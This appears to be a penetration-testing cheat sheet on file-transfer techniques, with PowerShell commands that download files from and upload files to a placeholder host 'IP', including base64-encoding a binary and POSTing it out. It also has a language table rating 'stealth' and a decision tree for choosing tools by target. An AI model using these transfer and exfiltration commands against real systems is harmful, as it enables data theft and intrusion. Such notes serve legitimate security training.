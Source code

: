 
## 🟦 PowerShell

See: [[Powershell File Transfer|PowerShell File Transfer Methods]]

### Quick Examples
```powershell
# Download
Invoke-WebRequest -Uri http://IP/file -OutFile output_file
(New-Object Net.WebClient).DownloadFile('http://IP/file', 'output_file')

# Upload
Invoke-RestMethod -Uri http://IP/upload -Method Post -InFile file.txt

# Base64 transfer
$bytes = [System.IO.File]::ReadAllBytes("C:\file.exe")
$encoded = [System.Convert]::ToBase64String($bytes)
Invoke-WebRequest -Uri http://IP/upload -Method POST -Body $encoded
```

---

## 📊 Language Comparison

| Language | Server | Download | Upload | Availability | Stealth |
|----------|--------|----------|--------|--------------|---------|
| Python | ⭐⭐⭐⭐ | ⭐⭐⭐⭐ | ⭐⭐⭐ | High | ⭐⭐⭐ |
| PHP | ⭐⭐⭐ | ⭐⭐⭐⭐ | ⭐⭐⭐⭐ | Medium | ⭐⭐ |
| Ruby | ⭐⭐⭐ | ⭐⭐⭐ | ⭐⭐⭐ | Low | ⭐⭐⭐ |
| Perl | ⭐⭐ | ⭐⭐⭐ | ⭐⭐ | Medium | ⭐⭐⭐ |
| PowerShell | ⭐⭐ | ⭐⭐⭐⭐ | ⭐⭐⭐ | Windows | ⭐⭐ |
| Go | ⭐⭐⭐⭐ | ⭐⭐⭐ | ⭐⭐⭐ | Low | ⭐⭐⭐⭐ |

---

## 🎯 Decision Tree

```
Which language to use?
├── Windows Target → PowerShell
├── Linux/Unix Target
│   ├── Python available? → Python (most versatile)
│   ├── Web server? → PHP
│   ├── Old system? → Perl (usually installed)
│   └── None available? → Shell script with /dev/tcp
└── Need compilation? → Go (single binary)
```

---